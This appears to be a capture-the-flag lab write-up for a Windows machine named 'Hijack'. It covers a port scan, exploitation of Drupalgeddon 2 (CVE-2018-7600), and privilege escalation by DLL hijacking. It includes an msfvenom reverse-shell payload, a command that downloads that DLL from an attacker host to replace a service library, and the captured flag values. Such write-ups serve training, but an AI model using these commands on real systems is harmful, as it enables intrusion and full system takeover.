

# Hijack

**IP Address:** 172.31.1.2| 68/udp | closed | dhcpc |   |7

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3306/tcp | open | mysql | MariaDB  |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 443/tcp | open | http | Apache httpd 2.4.37 |
| 445/tcp | open | microsoft-ds |   |
| 47001/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 49664/tcp | open | msrpc | Microsoft Windows RPC  |
| 49665/tcp | open | msrpc | Microsoft Windows RPC  |
| 49666/tcp | open | msrpc | Microsoft Windows RPC  |
| 49667/tcp | open | msrpc | Microsoft Windows RPC  |
| 49668/tcp | open | msrpc | Microsoft Windows RPC  |
| 49669/tcp | open | msrpc | Microsoft Windows RPC  |
| 49672/tcp | open | msrpc | Microsoft Windows RPC  |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 80/tcp | open | http | Apache httpd 2.4.37 |
| 123/udp | open|filtered | ntp |   |
| 135/udp | open|filtered | msrpc |   |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 138/udp | open|filtered | netbios-dgm |   |
| 139/udp | open|filtered | netbios-ssn |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 500/udp | open|filtered | isakmp |   |
| 520/udp | open|filtered | route |   |
| 631/udp | open|filtered | ipp |   |
| 67/udp | open|filtered | dhcps |   |
| 69/udp | open|filtered | tftp |   |

## Exploitation
### Exploit Details ()
* **Name** - Drupalgeddon 2 on Windows
* **CVE** - 2018-7600
* **Module** - N/A
* **Disclosed** - 2018-04-13
* **References**
  * https://wjmccann.github.io/blog/2018/06/02/Drupalgeddon2

Commands
```
python3 exploit.py http://$ip
whoami
type C:\Users\jack\Desktop\access.txt
```


## Privilege Escalation
### Exploit Details (DLL Hijackk)
* **Name** - DLL Hijack
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The hijack service is vulnerable to DLL hijack. 

1. Create a payload. 

Commands
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$lhost LPORT=53 -f dll -o /root/share/hijackme.dll
```


2. Download the payload, copy to the target location and then stop and start the service. 

Commands
```bash
Invoke-WebRequest http://10.10.0.15/hijackme.dll -OutFile hijackme.dll
copy hijackme.dll "C:\Program Files\Hijack\Libraries\Custom.dll"
net stop hijack
net start hijack
```


3. Catch the reverse shell and read the system.txt file. 

Commands
```
whoami
type C:\Users\Administrator\Desktop\system.txt
```



## Loot
```
access.txt
f7beb3cc769e0b70c750eab32e3e3c91
proof.txt
eaaaed85d047342ef6ac0b2248e9e599
```